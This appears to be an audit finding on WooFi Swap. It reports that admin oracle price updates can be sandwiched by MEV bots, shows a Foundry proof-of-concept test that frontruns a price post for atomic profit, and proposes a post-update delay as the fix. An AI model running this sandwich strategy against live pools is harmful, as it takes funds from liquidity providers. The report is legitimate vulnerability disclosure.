 Icy Denim Cougar

high

# Oracle price updates can be easily sandwiched for atomic profits

## Summary
When the new price is posted by admin to oracle, any MEV searcher can frontrun/sandwich for atomic profits. Such sandwich would mean loss of funds for the supplier of the tokens.
## Vulnerability Detail
Assume USDC is quote token and WOO is base token. WOO does not have a chainlink price feed which means the pricing of WOO will be handled by the WooOracle solely. 

Also assume that the WOO price is 0.5$. However, in off-chain markets, the price of WOO increases to 0.55$ and the oracle is updated by the admin so the oracle update will make the onchain price 0.5$ -> 0.55$.

MEV bot sees the oracle price update tx in mempool, and quickly buys WOO tokens from the pool contract and then sells it for more USDC after the oracle update is completed. At the end, MEV bot achieved to buy WOO tokens from 0.5$ and managed to sell all for 0.55$ in 1 tx. The profit that the MEV bot made is basically a loss to the provider of the WOO tokens in the pool since the WOO tokens are sold to a price that is cheaper than it should be. 

**Coded PoC:**
```solidity
function test_frontrunOraclePriceUpdate() public {
        uint usdcAmount = 1_000_000 * 1e6;
        uint wooAmount = 100_000 * 1e18;
        deal(USDC, ADMIN, usdcAmount);
        deal(WOO, ADMIN, wooAmount);

        vm.startPrank(ADMIN);
        IERC20(USDC).approve(address(pool), type(uint256).max);
        IERC20(WOO).approve(address(pool), type(uint256).max);
        pool.depositAll(USDC);
        pool.depositAll(WOO);
        vm.stopPrank();

        assertEq(IERC20(USDC).balanceOf(address(pool)), usdcAmount);

        uint usdcAmountForTapir = 10_000 * 1e6;
        vm.startPrank(TAPIR);
        deal(USDC, TAPIR, usdcAmountForTapir);
        IERC20(USDC).approve(address(router), type(uint256).max);
        IERC20(WOO).approve(address(router), type(uint256).max);
        vm.stopPrank();

        // sell USDC for WOO before price update, frontrun, initial price is 0.5
        vm.prank(TAPIR);
        uint receivedWOO = router.swap(USDC, WOO, usdcAmountForTapir, 0, payable(TAPIR), TAPIR);
        console.log("Received WOO", receivedWOO);

        // new price is updated, 0.55
        vm.prank(ADMIN);
        oracle.postPrice(WOO, 0.55 * 1e8);

        // immediately sell back 
        vm.prank(TAPIR);
        uint receivedUSDC = router.swap(WOO, USDC, receivedWOO, 0, payable(TAPIR), TAPIR);
        console.log("Received USDC", receivedUSDC);

        // atomic profit
        assertGe(receivedUSDC, usdcAmountForTapir);
    }
```
## Impact

## Code Snippet
https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/wooracle/WooracleV2_2.sol#L148-L156
https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L152-L170
## Tool used

Manual Review

## Recommendation
Add a buffer that whenever the price is updated the buffer amount of time has to be passed.
If the oracle updates at t=0, and buffer is 2seconds then the next swap can happen in t=2 to make sure sandwiching is not possible for MEV bots 